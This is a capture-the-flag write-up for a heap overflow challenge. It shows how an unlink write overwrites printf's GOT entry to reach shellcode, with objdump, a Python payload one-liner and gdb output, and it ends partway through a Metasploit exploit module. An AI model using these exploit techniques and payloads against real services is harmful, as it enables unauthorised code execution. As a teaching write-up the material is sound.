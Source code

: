 There's a controlled 4-byte write. In order to gain execution, we can overwrite
the GOT (targeting printf(), which is repeatedly called in between freeing
buffers) or target the do\_exit() function pointer which they provide to us.

Let's target printf():
```bash
stacks0n@ubuntu:~/Desktop$ objdump -R babyfirst-heap_33ecf0ad56efc1b322088f95dd98827c  | grep printf
0804c004 R_386_JUMP_SLOT   printf
```

Also, notice that this is occuring during the free of 0x804F058, the block prior to the one allocated for 260 bytes. Since the write is accessing eax+8, we need to subtract 8 from our target address. We can overwrite the GOT entry for printf to point to our shellcode on the heap. For this example, I'll replace "AAAA" with printf() GOT - 8, "BBBB" with heap buffer + 8 (to skip our addresses), and replace "C" with "\xCC", for a breakpoint.

```bash
stacks0n@ubuntu:~/Desktop$ python -c 'print "\xfc\xbf\x04\x08"+"\x58\xf3\x04\x08"+"\xCC"*252+"\x00\x00\x00\x00"' > input

(gdb) run < input
...
Program received signal SIGTRAP, Trace/breakpoint trap.
0x0804f359 in ?? ()
(gdb) x /5i $eip
=> 0x804f359:   int3
   0x804f35a:   int3
   0x804f35b:   int3
   0x804f35c:   cld
   0x804f35d:   mov    $0xcccc0804,%edi
(gdb) x /16bx $eip
0x804f359:  0xcc    0xcc    0xcc    0xfc    0xbf    0x04    0x08    0xcc
0x804f361:  0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
```

Great! We hit our breakpoint. However, notice that 0x0804bffc has been written here. That's due to unlink() fixing up both BK->FD and FD->BK. we can avoid this by putting a simple 'jmp' in our payload. For example, 'jmp 12' corresponds to '\xeb\x0c'.

## Code
Note, during the competition, this code was used for exploiting the service and
retrieving the key. It targeted overwriting the do\_exit() function pointer, which resulted in all buffers being freed prior to getting code execution. This required safely
```ruby
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'heap',
      'Description'    => %q{
            heap overflow
      },
      'Author'         => [ 'stacks0n' ],
      'Privileged'     => false,
      'Platform'       => [ 'linux' ],
                        'Arch'           => ARCH_X86,
      'Targets'        => [ [ 'Automatic', { }  ], ],
      'DefaultTarget'  => 0))

    register_options(
```